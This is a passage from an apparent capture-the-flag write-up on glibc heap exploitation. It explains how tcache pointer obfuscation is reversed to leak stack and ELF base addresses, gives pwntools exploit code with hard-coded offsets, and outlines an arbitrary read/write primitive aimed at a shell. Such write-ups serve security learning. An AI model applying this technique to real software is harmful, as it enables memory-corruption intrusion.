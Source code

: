 *Here’s the catch: in modern glibc versions, **tcache pointers are obfuscated** for security. The `fd` pointer is XOR’d with a per-process secret when stored. So when glibc wants to update the bin head, it **de-obfuscates** the value using this secret before using it.*

Now, when we **sneak in a raw stack pointer** (i.e., un-obfuscated) into the chunk's `fd`, glibc tries to **de-obfuscate it anyway**, thinking it’s legit tcache data. This gives us a **corrupted value**, but since we control the inputs, we can **reverse this de-obfuscation manually** to recover the **original stack pointer**.

Once we’ve got a valid **stack leak**, it becomes trivial to locate a return address or saved register on the stack that points back into the **ELF binary** — allowing us to **leak the ELF base address**.

```python
 ######### leaking stack and elf address ##########
 
libc_argv = libc.address + 0x2046e0
stack_offset = 0x7ffe1ebbf2a8- 0x7ffe1ebbf258-8
print("libc_argv = ",hex(libc_argv))
create(14,0x28)
write_into(14,pack(libc_argv))
create(0,0xf8)
view(14)
r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
stack_leak  = obfuscate(temp,libc_argv)
log.critical(f'stack_leak = {hex(stack_leak)}')

write_into(14,pack(stack_leak-stack_offset))
create(0,0xf8)
view(14)

r.recvuntil(b'Data: ')
temp = unpack(r.recv(6),'all')
elf.address  = obfuscate(temp,stack_leak) + 0x60ea2433c000 - 0x60ea2433d160
log.critical(f'elf.address = {hex(elf.address)}')
```

---

## Final Blow

Now we have everything we need — all the leaks and one of the most powerful exploitation primitives in hand: **arbitrary read and write**.

**How arb read/write ?** -> Well, now we can allocate a chunk on the chunks pointer table itself ( *as it checks the limit condition and we know elf address too now*) , then we can write any arbitrary pointer in the table and can read/write at that location (*remember to modify the size table too for that index*).

*At this point, getting shell access is just a matter of time.*

<img src="/d1ff/images_limit/blow.gif" width="300" style="display: block; margin: auto;"  />
